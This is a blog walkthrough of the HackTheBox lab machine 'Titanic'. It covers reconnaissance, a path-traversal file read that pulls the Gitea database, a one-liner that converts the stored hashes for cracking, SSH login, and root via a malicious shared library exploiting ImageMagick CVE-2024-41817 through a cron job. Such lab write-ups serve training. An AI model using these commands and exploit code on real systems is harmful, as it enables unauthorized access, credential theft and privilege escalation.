 ```yaml
---
layout: post
title: Titanic
date: 2025-06-22 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Linux,Apache,Gitea,Docker,magic,CVE-2024-41817]
author: klein
image:
  path: /images/images-titanic/image_25.png
  
---
```



As always let's start with an nmap scan. 

```
──(root㉿kali)-[/home/kali/HTB/Titanic]
└─# nmap --min-rate 10000 10.129.217.164
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 09:37 EDT
Nmap scan report for 10.129.217.164
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```


After finding out what ports are open on the target machine I am going to do a scan on those ports to determine service/version information.

```
┌──(root㉿kali)-[/home/kali/HTB/Titanic]
└─# nmap -p 22,80 -sCV 10.129.217.164
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 09:38 EDT
Nmap scan report for 10.129.217.164
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
![b](/images/images-titanic/image_01.png)

Based on the output it can be determined that the target is Ubuntu and also that port 80 is redirecting to titanic.htb. Let's add this to the /etc/hosts file.

```
vim /etc/hosts
```

While enumerating the website by clicking around I am going to start ffuf to fuzz for any subdomains.

```
ffuf -u http://10.129.217.164 -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac
```

This gave back "dev", let's add this as well to the /etc/hosts file.

By clicking around on the titanic.htb page the only responsive part is the "Book Your Trip" button.

![b](/images/images-titanic/image_02.png)

By sending a booking request and paying attention to the Network tab in developer tools many important pieces of information are visible. For example, the site is running Werkzeug Python.

![b](/images/images-titanic/image_03.png)

Also wanted to look at what kind of pages am I looking at, by the error message and with the help of Wappalyzer it is determined, that this is Flask.

![b](/images/images-titanic/image_04.png)


For enumerating any additional direcotries I ran feroxbuster.
```
feroxbuster -u http://titanic.htb
```
This gave back nothing significant that I could use to progress further.
![b](/images/images-titanic/image_05.png)

Time to switch to the dev site, which is hosting Gitea.
![b](/images/images-titanic/image_06.png)

By clicking on the "Explore" tab, I found two repositories.

![b](/images/images-titanic/image_07.png)

The docker-config repository has two folders.

One of them shows a password and the other one where the Gitea data that lives on the host machine.

![b](/images/images-titanic/image_08.png)


![b](/images/images-titanic/image_09.png)

The flask-app repository also shows the source code of titanic.htb.

![b](/images/images-titanic/image_10.png)

The source code gives away a few things, for example:
- / returns the static page
- /book only accepts POST requests saves the data with a random UUID filename, and then returns a redirect to /downloads.

Let's break down a booking request into smaller pieces and take a closer look.

By sending a request it can be examined that first the application sends a POST request and after that redirects to the /download directory. Later it turned out this is a directory traversal/file read vulnerability.

![b](/images/images-titanic/image_11.png)

By reading the output the only user outside of root that has a shell set is the developer. So I read the user.txt file based on this opportunity.

![b](/images/images-titanic/image_12.png)

The docker-compose.yml file showed that there is a shared volume in the developer's home directory, this is going to help out with getting a shell as a user.

This path was: /home/developer/gitea/data

Using this path we can chain this information with the database info which leaks the path to the database.

![b](/images/images-titanic/image_13.png)

Using curl I downloaded the database.

```
curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```
![b](/images/images-titanic/image_14.png)

In this database I found 2 long hashes, I used Google and found a method how to make a crackable hash from these strings.

![b](/images/images-titanic/image_15.png)

```
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```
![b](/images/images-titanic/image_16.png)

Copied these hashes to a file and used hashcat to crack them.

```
hashcat hashes.txt /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --user
```

This was successful and cracked the password for the developer user.

![b](/images/images-titanic/image_17.png)

From now on I can connect to the target machine via ssh and with the credentials.

```
ssh developer@titanic.htb
```
![b](/images/images-titanic/image_18.png)

The privilege escalation is a little bit harder because /proc is mounted with the hideid option set to invisible.

```
mount | grep "/proc "
```
![b](/images/images-titanic/image_19.png)

The privesc can be done by paying attention to the metadata.log file that is owned by root and is being written every minute.

![b](/images/images-titanic/image_20.png)

This is being done by a cron job that is running the following script.

![b](/images/images-titanic/image_21.png)

The target in this script is Image Magic. The version of Titanic is 7.1.1

![b](/images/images-titanic/image_22.png)

By doing a quick Google search it is easy to find a POC exploit for this version. I used one found on this GitHub page.

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

So I ran the following code:
```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
 system("cp /bin/bash /tmp/chr0nicler; chmod 6777 /tmp/chr0nicler");
 exit(0);
}
EOF
```
This loads the library which calls system("id") in its constructor.
After a minute or so the cron ran and my bash was there.

![b](/images/images-titanic/image_23.png)

After this, I can run the command with -p which gives a root shell.

![b](/images/images-titanic/image_24.png)